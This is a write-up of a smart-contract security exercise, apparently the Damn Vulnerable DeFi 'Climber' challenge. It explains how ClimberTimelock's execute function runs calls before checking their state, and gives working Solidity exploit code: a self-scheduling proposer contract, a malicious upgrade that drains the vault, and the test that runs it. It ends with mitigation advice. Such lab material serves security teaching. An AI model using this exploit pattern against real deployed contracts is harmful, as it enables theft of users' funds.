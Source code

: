 ## Privileges Escalation and Fund Theft via execute Function 

The `execute` function on the `ClimberTimelock` contract, first performs the requested calls before validating the state of the scheduled action. An attacker can exploit this sequence to bypass the validation and execute arbitrary code. The attack unfolds in three main steps:

- Granting `PROPOSER_ROLE`: An attacker grants themselves the `PROPOSER_ROLE` by calling the `grantRole` function.
- Setting a Zero Delay: calls `updateDelay` to set the timelock's delay to 0, ensuring that any proposed action can be executed immediately.
- Self-Registration: To prevent the execute function from reverting at its final state check, the attacker uses the newly acquired `PROPOSER_ROLE` to schedule the current malicious action. Because the execute function runs the scheduled action's calls before checking its state, by the time the state check is performed, the action is already registered and valid.

Once these steps are completed, the attacker gains full control over the timelock and can propose and execute any action. This allows them to propose a contract upgrade to a malicious implementation with a new function that transfer all funds from the vault to a specified address.

## PoC
The new version of the contract with our malicious code:
```solidity
// it need to inherits ClimberVault because the Proxy checks for the new contract to be Proxiable
contract MaliciousImplementation is ClimberVault {
    function recoverFunds(DamnValuableToken token, address recovery) public {
        token.transfer(recovery, token.balanceOf(address(this)));
    }
}
```

The `Proposer` contract (acting as a `man in the middle`):
```solidity
contract Proposer {

    bytes[] realCallsData;

    function setCallsData(bytes[] memory rde) public {
        realCallsData = rde;
    }

    function propose(
        ClimberTimelock timelock,
        address[] memory targets,
        uint256[] memory values,
        bytes32 salt
    ) public {
        timelock.schedule(
            targets,
            values,
            realCallsData,
            salt
        );
    }

    function attack(ClimberTimelock timelock, address vault, DamnValuableToken token, address recovery) public {
        MaliciousImplementation maliciousImplementation = new MaliciousImplementation();

        address[] memory targets = new address[](1);
        targets[0] = vault;
        uint256[] memory values = new uint256[](1);

        bytes[] memory callsData = new bytes[](1);
        callsData[0] = abi.encodeWithSignature(
            'upgradeToAndCall(address,bytes)',
            address(maliciousImplementation),
            // HERE IS THE CALL TO RECOVER THE FUNDS 
            abi.encodeCall(MaliciousImplementation.recoverFunds, (token, recovery)) // executed on initialization 
        );
        
        bytes32 salt = '1';
        
        timelock.schedule(
            targets,
            values,
            callsData,
            salt
        );

        timelock.execute(targets, values, callsData, salt);
    }
}
```

and the test suite:
```solidity
    function test_climber() public 
    checkSolvedByPlayer 
    {
        // 1. Deploy Proposer
        Proposer proposerContract = new Proposer();

        // 2. Prepare targets
        address[] memory targets = new address[](3);
        targets[0] = address(timelock);
        targets[1] = address(timelock);
        targets[2] = address(proposerContract);

        // 3. Prepare values
        uint256[] memory values = new uint256[](3); // all 0s 

        // 4. Prepare salt
        bytes32 salt  = '1'; 

        // 5. Prepare data for calls
        // a) Grant to proposer contract PROPOSER_ROLE
        // b) set the updateDelay of timelock to 0, so proposed actions can be executed inmediatly (OperationState == ReadyForExecution)
        // c) To avoid `execute` to revert, we propose this current action, so when it checks for the id and it's state, this action will be already registered (lack of CEI pattern)
        // at this point, the proposer contract can propose any action over the vault. 
        // SO it propose an upgrade to a new malicious contract, with a `recoverFunds` that will transfer the funds of the vault to the recovery address.
        bytes memory grantRoleData = abi.encodeWithSignature('grantRole(bytes32,address)', PROPOSER_ROLE,address(proposerContract));
        bytes memory updateDelayData = abi.encodeWithSignature('updateDelay(uint64)', 0); 
        bytes memory proposerData = abi.encodeWithSignature(
            'propose(address,address[],uint256[],bytes32)',
            address(timelock),
            targets,
            values,
            salt
        );
        // ^^
        bytes[] memory dataElements = new bytes[](3);
        dataElements[0] = grantRoleData;
        dataElements[1] = updateDelayData;
        dataElements[2] = proposerData; // without calls data, to avoid circular dependencies btw dataElements and proposerData

        // 6. set the call data that will be sended to schedule 
        proposerContract.setCallsData(dataElements);

        // 7. Execute the actions
        timelock.execute(targets, values, dataElements, salt);
        
        // 8. Attack
        proposerContract.attack(timelock, address(vault), token, recovery);
    }
```


## Recomendations
- Follow the CEI pattern to avoid reentrancies on the `execute` function AKA checks for the state/validity of the action before execute it. 
- Add a more robust administration system such as implement a multisig wallet to manage delicated stuff like roles and privileges.
